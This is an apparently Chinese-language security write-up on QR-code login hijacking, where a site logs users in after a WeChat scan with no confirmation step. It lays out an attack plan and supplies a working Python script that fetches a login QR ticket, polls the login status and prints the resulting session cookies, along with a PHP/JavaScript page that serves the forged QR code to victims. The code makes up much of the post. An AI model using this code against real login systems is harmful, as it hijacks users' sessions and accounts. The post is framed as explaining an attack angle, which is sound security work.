





# 二维码劫持漏洞

​		如今，通过微信扫描进行登陆是很主流的一种登陆方法，用户省去了输入密码的环节，厂商也能通过微信公众号提升用户的依赖性。

但是如果登陆策略不当的话，比如像下文中，用户仅需微信扫描二维码，而没有手动确认登陆的情况下，用户就可能受到二维码劫持攻击的风险。


## 二维码登陆流程

下面以实际例子举例：

首先客户端发送请求，获取微信二维码，及ticket。




**imageUrl** 就是二维码图片链接



接下来通过轮询此二维码，判断用户是否扫描。

一般分为三种情况

- 返回为0，登陆成功，并回显set-cookie
- 返回为1，表示二维码未被扫描
- 返回为2，表示二维码已过期







## 思路及实践

> 所以思路就来了
>
> 1. 伪造二维码 
> 2. 投放二维码
> 3. 不断轮询，向用户投放二维码
> 4. 获取cooike

```
# @Author:77
# -*- codeing = utf-8 -*-
# @TIME : 2022/9/27 18:11
# @File : Test_QRcode.py
# @Software: PyCharm
import requests
import time

header = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36",
        'Referer': "https://www.example.com/"
}

s=requests.session()
while True:
    flag = 0
    response = s.get(url='https://www.example.com', headers=header)
    # print(response.text)
    r = s.get('https://www.example.com/oauth2/login/wechat_qr_code?_=1663254775727', headers=header)
    # print('二维码已生成！')
    qrcodeurl = r.text.split('l":"')[1]
    qrcodeurl = qrcodeurl.split('","')[0]
    ticket = qrcodeurl.split('showqrcode?')[1]
    f = open("qrcode.txt", "w")
    f.write(ticket)
    f.close()
    # 二维码链接
    qr_url = ("https://mp.weixin.qq.com/cgi-bin/showqrcode?" + ticket)
    print('二维码链接为:' + qr_url)
    re_url = ("https://www.example.com/oauth2/login/wechat_mp_status" + '?' + ticket)
    while True:
        # print("开始轮询二维码状态")
        r = s.get(url=re_url, headers=header)

        # print(r.text)
        code = r.text.split('"code":')[1]
        code = code.split('}')[0]
        # print(code)
        if code == '2':
            # print('二维码已失效，请重新刷新')
            flag=1
            break
        if code == '1':
            # print('二维码未扫描')
            continue
        if code == '0':
            flag = 1
            print('登陆成功')
            break
        time.sleep(1)
    if flag == 1:
        break
    time.sleep(5)
print("最终获取cookie为:")
print(requests.utils.dict_from_cookiejar(s.cookies))
```

投放二维码

```
<?php>
$qrcode = file_get_contents('qrcode.txt');
echo'';
?>
<script type="text/javascript">
    function  flash(){
        location.reload();
    }
    setInterval(falsh,20000)
</script>
```


最后给一张测试成功截图。




> **当然这个可能并不算是多危险的漏洞，仅是介绍一种攻击的思考角度。在实际中客户体验经常会与安全性产生冲突，是否需要整改可能需要讨论，寻找出一个合适的平衡点。**

